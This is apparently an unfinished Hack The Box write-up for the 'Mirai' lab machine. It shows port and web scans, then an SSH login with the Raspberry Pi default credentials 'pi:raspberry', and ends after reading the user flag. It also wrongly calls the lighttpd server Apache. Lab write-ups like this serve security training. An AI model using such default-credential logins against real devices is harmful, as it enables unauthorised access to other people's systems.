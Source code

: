 # MIRAI WRITEUP
###### IP-Addres: 10.10.10.48
###### Operation-System: Linux
[Mirai](https://www.hackthebox.eu/home/machines/profile/64)

## RECONNAISSANCE
**NMAP Scan:**
```nmap -sS -sV 10.10.10.48

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-15 07:28 EDT
Nmap scan report for 10.10.10.48
Host is up (0.023s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp   open  domain  dnsmasq 2.76
80/tcp   open  http    lighttpd 1.4.35
2010/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.12 seconds
```
We see, there is a Apache and a SSH server running.
We also know, Mirai was a botnet that spread by only checking IOT-Devices for default login.
So we go on the Webserver first and see: NOTHING. But why shouldn't we run nikto on it just to see if it got something juicy?
Lets see.
**NIKTO SNIPPET**
```+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
```
After we go to the admin/index.php page, we see its a raspberry pi. After googling few minutes, the default login credentials for a raspberry pi are:
*pi:raspberry*
Let's go to SSH and login.
```ssh pi@10.10.10.48
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
``` 
We got in. Show me what you got.
```pi@raspberrypi:~ $ ls -a
.              .config          .thumbnails           Public
..             .dbus            .xsession-errors      Templates
.Xauthority    .gstreamer-0.10  .xsession-errors.old  Videos
.asoundrc      .gtkrc-2.0       Desktop               background.jpg
.bash_history  .local           Documents             oldconffiles
.bash_logout   .pki             Downloads             python_games
.bashrc        .profile         Music
.cache         .themes          Pictures
pi@raspberrypi:~ $ cd Desktop
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ cat user.txt
ff837707441b257a20e32199d7c8838d
```
Voilá. we got in. 

**More will come**
